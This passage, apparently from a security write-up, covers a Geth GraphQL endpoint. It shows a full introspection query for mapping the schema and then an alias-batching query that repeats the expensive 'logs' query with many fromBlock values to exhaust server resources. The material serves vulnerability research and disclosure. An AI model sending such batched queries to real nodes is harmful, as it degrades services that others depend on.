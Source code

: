 ```code
{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}
```

This request returns a large JSON, that can be uploaded on a website like [GraphQL Voyager](https://graphql-kit.com/graphql-voyager/), or simply put in the **InQL Scanner** module for analysis:

![inQL Burp extension](5-inQL.png "BurpSuite InQL Scanner")

<u>Note:</u> since Geth is public, it is also possible to retrieve this information from the [source code](https://github.com/ethereum/go-ethereum/blob/master/graphql/schema.go).

By analyzing the results, the **logs** query is interesting because the filter **fromBlock** means that the server would have to recompute, for each GraphQL query, all the logs from the mentioned block.This **seems expensive in terms of resources**.

Using aliases for this query would look like this :

```code
query {
    request1: logs(filter: { fromBlock: 4188901 }) {
      data
      topics
      index
      transaction {
        gas
      }
      account(block: Long) {
        address
      }
(...)
    }
    request99: logs(filter: { fromBlock: 4188999 }) {
      data
      topics
      index
      transaction {
        gas
      }
      account(block: Long) {
        address
      }
    }
}
```
